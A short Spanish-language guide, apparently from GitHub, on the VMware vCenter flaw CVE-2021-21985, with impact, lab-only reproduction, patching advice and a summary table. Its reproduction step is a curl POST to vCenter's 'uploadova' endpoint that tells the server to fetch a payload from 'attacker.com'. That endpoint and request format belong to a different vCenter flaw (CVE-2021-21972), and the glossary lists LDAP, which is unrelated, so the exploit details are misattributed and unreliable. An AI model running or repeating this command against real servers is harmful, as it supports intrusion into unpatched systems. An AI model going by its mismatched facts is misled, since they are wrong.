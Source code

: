 # CVE-2021-21985 Guía de Vulnerabilidad: VMware vCenter RCE

## 🔎 Descripción General

- **CVE-2021-21985**: Permite ejecución remota a través de un plugin vulnerable en VMware vCenter.

## ⚠️ Impacto

RCE sin autenticación a través del endpoint vulnerable.

## 🧪 Reproducción (Solo en Laboratorio Aislado)

**Pasos para reproducir:**

1. Envía una solicitud POST al endpoint:
   ```bash
   curl -k -X POST https://<IP>:443/ui/vropspluginui/rest/services/uploadova    -H "Content-Type: application/json"    --data '{"url":"http://attacker.com/payload.ova"}'
   ```
2. Analiza si el servidor intenta descargar el archivo desde tu servidor.


⚠️ **Advertencia:** Nunca pruebes estas técnicas fuera de un entorno de laboratorio controlado y con autorización explícita.

## 🛡️ Mitigación

Actualizar VMware vCenter a la versión corregida publicada en mayo de 2021.

## 📝 Glosario

- **RCE**: Ejecución remota de código.
- **PoC**: Prueba de concepto.
- **LDAP**: Protocolo de acceso ligero a directorios.

## ✅ Tabla Resumen

| Aspecto              | Detalles                    |
|----------------------|-----------------------------|
| ID CVE               | CVE-2021-21985                    |
| Nombre               | VMware vCenter RCE                     |
| Impacto              | RCE sin autenticación a través del endpoint vulnerable      |
| Tipo de Explotación  | RCE                         |
| Requiere Autenticación | No                        |
| Mitigación           | Actualizar VMware vCenter a la versión corregida publicada en mayo de 2021  |

## 🔄 Próximos Pasos

- Verificar si tu sistema está afectado.
- Aplicar los parches necesarios.
- Configurar controles de mitigación adicionales si no se puede parchear inmediatamente.
